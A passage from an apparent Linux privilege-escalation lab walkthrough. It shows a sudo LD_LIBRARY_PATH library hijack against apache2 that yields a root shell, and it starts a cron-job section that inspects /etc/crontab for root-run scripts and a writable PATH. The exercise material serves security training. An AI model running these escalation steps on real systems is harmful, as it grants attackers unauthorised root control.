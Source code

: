Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

```

sudo LD_LIBRARY_PATH=/tmp apache2

user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
root@debian:/home/user# whoami
root
root@debian:/home/user# echo $IP

root@debian:/home/user# echo $SHELL
/bin/bash


```

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

Remember to exit out of the root shell before continuing!

Answer the questions below
Read and follow along with the above.


====
Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:

```
cat /etc/crontab

user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

user@debian:~$ 

```
